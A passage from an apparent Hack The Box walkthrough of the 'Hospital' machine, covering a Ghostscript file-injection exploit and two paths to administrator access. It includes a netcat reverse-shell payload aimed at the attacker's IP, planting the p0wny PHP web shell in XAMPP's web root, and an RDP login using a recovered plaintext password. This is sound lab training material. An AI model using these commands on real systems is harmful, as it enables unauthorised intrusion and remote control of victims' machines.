 The attacker's machine receives a GET request, confirming the success of the code injection. Afterwards, nc.exe is now present on the victim machine.

![received "get" hit](/assets/img/htb/hospital/get_hit_1.png)

The attacker proceeds to create and send another malicious .eps file, this time the code injection will tell the victim machine to execute nc.exe and send a reverse shell to the attacker's machine.

```bash
python CVE_023_36664_exploit.py --inject --payload 'nc.exe -e cmd 10.10.14.26 9001' --filename file.eps
```
![ghostscript reverse shell injection](/assets/img/htb/hospital/ghostscript_reverse_shell.png)

![composing another email](/assets/img/htb/hospital/composing_email_2.png)

A reverse shell connection is established, granting the attacker access to the victim machine.

![ps shell received](/assets/img/htb/hospital/recv_ps_shell_1.png)

The user flag is at __C:\Users\drbrown.HOSPITAL\Desktop__

![shell as drbrown](/assets/img/htb/hospital/whoami_drbrown_1.png)

## Root 
 
### solution 1 (XAMPP misconfiguration)

Go to C:\xampp\htdocs and upload the [p0wny-shell](https://github.com/flozz/p0wny-shell) there.

serving the p0wny shell 


![serving p0wny](/assets/img/htb/hospital/serving_p0wny_1.png)

downloading the p0wny shell in the htdocs directory


![saving p0wny](/assets/img/htb/hospital/saving_p0wny_htdocs.png)

Navigate to https://hospital.htb/pwny.php and a shell as nt authority will be given

![whoami admin](/assets/img/htb/hospital/whoami_admin_1.png)

### Solution 2 RDP

There is a password in the ghostscript.bat file. __drbrown:chr!$br0wn__

![drbrown pass](/assets/img/htb/hospital/drbrown_pass_1.png)

Connect to rdp as user drbrown 

```bash
xfreerdp /v:10.10.11.241 /u:drbrown /p:'chr!$br0wn'
```
